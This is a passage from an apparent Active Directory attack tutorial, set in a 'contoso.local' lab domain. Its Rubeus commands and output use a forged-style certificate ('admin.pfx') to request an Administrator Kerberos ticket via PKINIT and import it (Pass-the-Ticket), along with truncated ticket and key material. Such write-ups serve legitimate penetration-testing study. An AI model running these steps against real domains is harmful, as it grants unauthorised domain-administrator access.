 ```
--snip--
```

Finally, we perform PKINIT Kerberos authentication and Pass-the-Ticket attack with the generated pfx file:

```
C:\Tools>dir \\dc01.contoso.local\C$
Access is denied.

C:\Tools>Rubeus.exe purge

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0


[*] Action: Purge Tickets
Luid: 0x0
[+] Tickets successfully purged!

C:\Tools>Rubeus.exe asktgt /user:Administrator /password:123456 /certificate:admin.pfx /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=David, CN=Users, DC=contoso, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'contoso.local\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF4jCCBd6gAwIBBaEDAgEWooIE7zCCBOthggTnMIIE46ADAgEFoQ8bDUN.....

      --snip--

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/contoso.local
  ServiceRealm             :  CONTOSO.LOCAL
  UserName                 :  Administrator
  UserRealm                :  CONTOSO.LOCAL
  StartTime                :  9/30/2021 10:30:17 PM
  EndTime                  :  10/1/2021 8:30:17 AM
  RenewTill                :  10/7/2021 10:30:17 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  XJo/1JOAKw1smiTuPRBjBg==
  ASREP (key)              :  F12DC0EEFA51E0F02DD60D6FE787392E


C:\Tools>Rubeus.exe klist
```